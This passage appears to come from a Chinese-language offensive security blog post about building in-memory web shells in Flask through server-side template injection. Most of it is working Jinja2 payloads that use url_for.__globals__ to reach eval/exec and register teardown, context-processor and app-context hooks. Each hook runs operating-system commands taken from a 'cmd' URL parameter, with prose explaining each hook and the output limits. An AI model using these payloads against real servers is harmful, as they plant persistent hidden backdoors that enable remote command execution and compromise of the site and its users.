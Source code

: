 ```python
", 
{'request':url_for.__globals__['request'], 'ufg': url_for.__globals__, 'app':url_for.__globals__['current_app']}) }}
```
### @app.teardown_request
这个装饰器用于注册一个函数，该函数会在每次请求结束后调用，无论请求是否成功。拆卸函数的返回值将被忽略。在请求结束后`do_teardown_request`函数会被调用。这个函数的也是没有回显的，所以可参考前面说到的方法。
![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1717855372681-82fc0dac-aa6b-4db1-9dd9-d992ac4bcf78.png#averageHue=%23202327&clientId=ue331e04d-0d85-4&from=paste&height=289&id=uf1b1767b&originHeight=361&originWidth=1239&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=62912&status=done&style=none&taskId=ueae72a91-4ee3-4757-9c0e-0f68be888fc&title=&width=991.2)
```python
{{ url_for.__globals__['__builtins__']['eval'](
"
app.teardown_request_funcs.setdefault(None, []).append(lambda exc:  __import__('os').popen(request.args.get('cmd')) if 'cmd' in request.args.keys() else None)
", 
{'request':url_for.__globals__['request'], 'ufg': url_for.__globals__, 'app':url_for.__globals__['current_app']}) }}
```
### @app.context_processor
这个装饰器用于注册一个上下文处理器，该处理器返回的字典将合并到模板上下文中。最终操作的数据是`template_context_processors`，具体用法参考：[https://developer.aliyun.com/article/1196915](https://developer.aliyun.com/article/1196915) 直接点说就是用它来注册在模板中使用的变量，当模板渲染的时候会自动调用这个函数得到一个字典。然后用字典里面的变量去替换模板中的内容。所以作为内存马使用的话就比较局限了。由`update_template_context`函数来操作。
![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1717856675530-7daaea6f-02a5-4beb-b287-fb67e4fb1de7.png#averageHue=%231f2226&clientId=ue331e04d-0d85-4&from=paste&height=396&id=uaf09c3d0&originHeight=495&originWidth=1011&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=74080&status=done&style=none&taskId=uf0fb073a-5a03-407b-a799-013aa2baf40&title=&width=808.8)
Payload如下，lambda函数里返回了一个字典，键值是`ak47`，要想拿到回显的话可以参考前面的内容，或者使在有 SSTI 的地方使用。貌似也可以配合模板操作的装饰器实现回显。
```python
{{ url_for.__globals__['__builtins__']['eval'](
"
app.template_context_processors[None].append(lambda : {'ak47': __import__('os').popen(request.args.get('cmd')).read() if 'cmd'in request.args.keys() is not None else None})
", 
{'request':url_for.__globals__['request'], 'ufg': url_for.__globals__, 'app':url_for.__globals__['current_app']}) }}
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1717856783079-a644a043-85bb-4cb7-870d-7374d840a30b.png#averageHue=%23edf0f4&clientId=ue331e04d-0d85-4&from=paste&height=257&id=u24ada709&originHeight=321&originWidth=1757&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=66035&status=done&style=none&taskId=u9181779f-9480-493e-a4c0-e997b976c24&title=&width=1405.6)
![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1717856823009-756310a1-63b3-4c04-bca9-78c51ee87b24.png#averageHue=%237aa9c5&clientId=ue331e04d-0d85-4&from=paste&height=306&id=u0be1678c&originHeight=382&originWidth=1887&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=134599&status=done&style=none&taskId=u2fe3e9cf-4146-4d0e-83ce-32d221d8ece&title=&width=1509.6)
### @app.teardown_appcontext
装饰器标记的函数会在每次应用环境销毁时调用。操作的数据是`teardown_appcontext_funcs`，在请求结束销毁的时候由`do_teardown_appcontext()`函数调用，所以就很特殊，在这里调用的时候请求上下文已经消失获取不到上下文包括传递的url参数，也就无法控制内存马，但是依然可以命令执行，不过在每次请求的时候都会被调用。所以要么配合其他装饰器在这个装饰器的函数调用之前，将`request`对象保存到 Flask 的全局变量 `g`中，然后再拿到参数。
```python
{{ url_for.__globals__['__builtins__']['exec'](
"
g=ufg['g']
app.teardown_request_funcs.setdefault(None, []).append(lambda exc: exec('g.saved = {\'path\':request.path, \'args\':request.args}') );
app.teardown_appcontext_funcs.append(lambda exc: __import__('os').popen(g.saved['args'].get('cmd')) if '/shell'==g.saved['path'] else exc ) 
", 
{'request':url_for.__globals__['request'], 'ufg': url_for.__globals__, 'app':url_for.__globals__['current_app']}) }}
```
属于是脱裤子放屁了。没有回显。只有访问`/shell?cmd=calc`才会执行。回显问题依然参考前面的抛出异常啥的。这个可以弄`404`的。
# WebSocket内存马
没法实现，一个是flask框架本身没有对websocket的支持，
[https://www.cnblogs.com/tianyiliang/p/17544455.html](https://www.cnblogs.com/tianyiliang/p/17544455.html)
[https://mp.weixin.qq.com/s/_hNrF2zKb7qFKBMXnf3kfA](https://mp.weixin.qq.com/s/_hNrF2zKb7qFKBMXnf3kfA)
[https://www.liujiangblog.com/course/python/77](https://www.liujiangblog.com/course/python/77)